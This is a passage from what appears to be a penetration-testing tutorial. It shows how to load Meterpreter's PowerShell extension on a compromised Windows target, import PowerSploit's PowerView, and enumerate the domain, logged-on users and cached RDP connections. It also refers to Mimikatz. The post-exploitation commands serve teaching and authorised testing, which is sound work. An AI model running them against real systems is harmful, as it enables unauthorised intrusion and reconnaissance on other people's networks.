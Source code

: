 More details on Mimikatz can be found [here](https://github.com/gentilkiwi/mimikatz/wiki)

### PowerShell on Meterpreter

If the target supports PowerShell 2.0, you can run `load powershell`. 
If the target does not support PowerShell 2.0 engine, you'll need to use the PowerShell reverse shell payload. 
With the extension loaded, we can run `help` and see three additional commands:

* powershell_execute # Execute a Powershell command string
* powershell_import.  # Import a PS1 script .NET assembly DLL
* powershell_shell.     # Create an interactive Powershell prompt

```bash
powershell_execute "$PSVersionTable"
# Import a script or assembly to the target - must end in .ps1 or .dll
# https://github.com/PowerShellMafia/PowerSploit/ which is a PowerShell Post-Exploitation Framework
powershell_import "/root/Desktop/PowerSploit/Recon/PowerView.ps1"
# Now we can execute / invoke PowerView
powershell_execute Get-NetDomain
# Get the logged on users
powershell_execute Get-NetLoggedon
# Get an interactive powershell shell
powershell_shell
# With previous imported scripts, we can access the functions
Get-CachedRDPConnection
```

https://github.com/PowerShellMafia/PowerSploit

https://powersploit.readthedocs.io/en/latest